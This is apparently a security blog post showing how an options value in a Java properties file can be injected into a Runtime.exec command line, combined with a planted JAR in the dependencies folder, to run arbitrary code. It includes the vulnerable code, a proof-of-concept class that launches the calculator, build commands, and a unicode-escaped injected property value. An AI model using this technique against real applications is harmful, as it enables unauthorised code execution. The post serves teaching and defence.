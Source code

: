 ```yaml
---
layout: single
title: Command Injection in Runtime.exec via Java Properties and JAR Hijacking
date: 2023-12-11
classes: wide
tags:
  - java properties
  - command injection
  - jar hijacking
---
```


> In Java, Runtime.exec is often used to invoke a new process, but it does not invoke a new command shell, which means that chaining or piping multiple commands together does not usually work. Command injection is still possible if the process spawned with Runtime.exec is a command shell like command.com, cmd.exe, or /bin/sh.

But consider the scenario where the Java application itself is the spawned process. The following example illustrates this situation.

```
Runtime runtime = Runtime.getRuntime();
Properties properties = new Properties();

try (FileInputStream stream = new FileInputStream("app.properties")) {
    properties.load(stream);
}

String options = properties.getProperty("options", "");
String command = String.format("\"C:/Program Files/Java/jrexxx/bin/javaw\" -cp ".;./dependencies/*\" %s com.example.main.Example", new Object[] { options });

Process process = runtime.exec(command);
```

To exploit this code, it's necessary to craft your own JAR file and use it to insert the classpath as a parameter into the Java process.

Store the following example into a file named `Calc.java`, ensuring to include the package declaration at the start of the file.

```
package command.injection;

import java.io.IOException;

public class Calc {

    public static void main(String[] args) throws IOException {
        Runtime.getRuntime().exec("calc");
    }
}
```

Compile the source code using the -d . option, which instructs the compiler to generate the specified directory structure.

```
javac -d . Calc.java
```

When creating a .jar file, you should use the `cvfeP` option set to guide the packaging process.

```
jar cvfeP calc.jar command.injection.Calc -C . command/injection/
```

This ensures the preservation of the package structure (P), sets the entry point for meaningful manifest information (e), names the file (f), creates an archive (c), and enables verbose output (v). The key options to focus on are P for maintaining the package structure and e for specifying the entry point. Then, append the command with the jar's name (test.jar) and its entry point. Conclude by using -C . <packagename>/ to collect class files from the designated folder while maintaining the folder's structure.

Open the `calc.jar` file in a zip program to ensure that it has the following directory structure:

```
command/
├─ injection/
│  ├─ Calc.class
META-INF/
├─ MANIFEST.MF
```

The `MANIFEST.MF` should contain the following:

```
Manifest-Version: 1.0
Created-By: <JDK Version> (Oracle Corporation)
Main-Class: command.injection.Calc
```

When manually editing your manifest file, it's important to retain the newline at the end; otherwise, Java will not recognize the manifest correctly.

Place `calc.jar` into the `/dependencies` directory of the target application.

Add the following property to the configuration file (`application.properties`) of the application:

```
options=command.injection.Calc\u0020\u0026\u003A\u003A\u0020
```

Run the target application and observe that instead of the expected program, the calculator app will launch.

Below is the value that was fed into the exec function.

```
"C:/Program Files/Java/jrexxx/bin/javaw" -cp ".;./dependencies/*\" command.injection.Calc &:: com.example.main.Example
```

## References

- [Command injection in Java](https://wiki.owasp.org/index.php/Command_injection_in_Java)
